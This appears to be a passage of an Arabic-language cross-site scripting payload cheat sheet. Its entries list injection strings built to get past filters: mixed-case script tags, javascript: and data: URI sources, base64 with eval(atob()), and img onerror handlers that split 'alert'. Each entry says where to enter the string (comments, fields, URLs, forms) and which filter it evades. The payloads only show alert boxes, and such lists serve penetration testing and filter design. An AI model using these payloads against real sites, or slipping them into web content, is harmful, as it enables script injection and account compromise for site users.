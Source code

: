 #### هـ. الحالات والصيغ
{ #XSS_Idea_for_script_tag / #XSS--ALL--Event--Payload  }
تغيير حالة الأحرف أو صيغة الوسوم.
- **الحقن**: `<SCRIPT>alert('XSS')</SCRIPT>`
  - **الإدخال**: أدخل في تعليق: `<SCRIPT>alert('XSS')</SCRIPT>`
  - **كيف يعمل**: حروف كبيرة لتجاوز فلاتر حساسة لحالة الأحرف.
  - **متى يُستخدم؟**: عندما تكون الفلاتر حساسة للحالة.
- **الحقن**: `<sCrIpT>alert('XSS')</sCrIpT>`
  - **الإدخال**: أدخل في حقل: `<sCrIpT>alert('XSS')</sCrIpT>`
  - **كيف يعمل**: حالات مختلطة لتعقيد إضافي.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر صيغًا محددة.
- **الحقن**: `<script type="text/javascript">alert('XSS')</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script type="text/javascript">alert('XSS')</script>`
  - **كيف يعمل**: يحدد نوع النص صراحة.
  - **متى يُستخدم؟**: لتجنب فلاتر تتجاهل الوسوم غير المحددة.
- **الحقن**: `<script language="javascript">alert('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<script language="javascript">alert('XSS')</script>`
  - **كيف يعمل**: يستخدم سمة `language` القديمة.
  - **متى يُستخدم؟**: لتجنب فلاتر حديثة.
- **الحقن**: `<ScRiPt>AlErT('XSS')</ScRiPt>`
  - **الإدخال**: أدخل في تعليق: `<ScRiPt>AlErT('XSS')</ScRiPt>`
  - **كيف يعمل**: يمزج الحالات في الوسم والدالة.
  - **متى يُستخدم؟**: لتجاوز فلاتر حساسة للحالة.

#### و. مصادر خارجية
{ #XSS_Idea_for_script_tag }
استخدام مصادر JavaScript معقدة.
- **الحقن**: `<script src=javascript:alert('XSS')></script>`
  - **الإدخال**: أدخل في حقل: `<script src=javascript:alert('XSS')></script>`
  - **كيف يعمل**: يستخدم عنوان `javascript:` كمصدر.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر الشيفرة المباشرة.
- **الحقن**: `<script src=data:,alert('XSS')></script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script src=data:,alert('XSS')></script>`
  - **كيف يعمل**: يستخدم عنوان بيانات (data URI).
  - **متى يُستخدم؟**: لتجنب فلاتر URLs.
- **الحقن**: `<script src="data:text/javascript,alert('XSS')"></script>`
  - **الإدخال**: أدخل في نموذج: `<script src="data:text/javascript,alert('XSS')"></script>`
  - **كيف يعمل**: صيغة أخرى لعنوان البيانات.
  - **متى يُستخدم؟**: لتجنب فلاتر صارمة.
- **الحقن**: `<script src="data:;base64,YWxlcnQoIlhTUyIp"></script>`
  - **الإدخال**: أدخل في تعليق: `<script src="data:;base64,YWxlcnQoIlhTUyIp"></script>`
  - **كيف يعمل**: يشفر `alert("XSS")` بـ Base64.
  - **متى يُستخدم؟**: لتجاوز فلاتر URLs المشفرة.
- **الحقن**: `<script>eval(atob('YWxlcnQoIlhTUyIp'))</script>`
  - **الإدخال**: أدخل في حقل: `<script>eval(atob('YWxlcnQoIlhTUyIp'))</script>`
  - **كيف يعمل**: يستخدم Base64 مع فك التشفير عبر `atob`.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر الشيفرة العادية.

#### ز. أحداث معقدة
{ #XSS_Idea_for_Img_tag / #XSS--ALL--Event--Payload  }
استخدام سمات الأحداث مع شيفرة معقدة.
- **الحقن**: `<img src=x onerror=('al'+'ert')('XSS')>`
  - **الإدخال**: أدخل في تعليق: `<img src=x onerror=('al'+'ert')('XSS')>`
  - **كيف يعمل**: يقسم `alert` في حدث `onerror`.
  - **متى يُستخدم؟**: لتجنب فلاتر الأحداث.
- **الحقن**: `<img src=x onerror=window['alert']('XSS')>`
  - **الإدخال**: أدخل في حقل: `<img src=x onerror=window['alert']('XSS')>`
  - **كيف يعمل**: يستخدم `window['alert']` في حدث `onerror`.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر `alert`.